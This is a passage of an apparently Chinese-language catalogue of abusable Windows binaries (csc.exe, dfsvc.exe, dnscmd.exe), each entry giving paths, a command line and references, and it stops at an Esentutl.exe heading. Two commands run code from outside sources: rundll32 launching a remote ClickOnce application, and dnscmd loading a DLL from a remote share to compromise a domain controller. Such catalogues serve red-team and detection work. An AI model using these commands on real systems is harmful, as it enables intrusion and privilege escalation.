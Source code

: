 .NET可以使用csc程序来编译C＃代码。

文件路径:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Csc.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Csc.exe
```
- 执行方式：
```
csc.exe -out:My.exe File.cs
csc -target:library File.cs
```
- 参考资料：
```
https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/command-line-building-with-csc-exe
```
## Dfsvc.exe
- 使用说明：

dfsvc.exe是用来检查应用程序是否已经安装并且是最新的，如果需要的话将应用程序下载到用户AppData中的ClickOnce文件夹，然后从当前位置（随着每次更新而改变）启动它。 

文件路径:
```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
```
- 执行方式：
```
rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
```
- 参考资料：
```
https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
```
## Dnscmd.exe
- 使用说明：

用于管理DNS服务器的命令行界面

文件路径:
```
C:\Windows\System32\Dnscmd.exe
C:\Windows\SysWOW64\Dnscmd.exe
```
- 执行方式：
```
dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
```
- 参考资料：
```
https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
https://twitter.com/Hexacorn/status/994000792628719618
http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
```
## Esentutl.exe
- 使用说明：
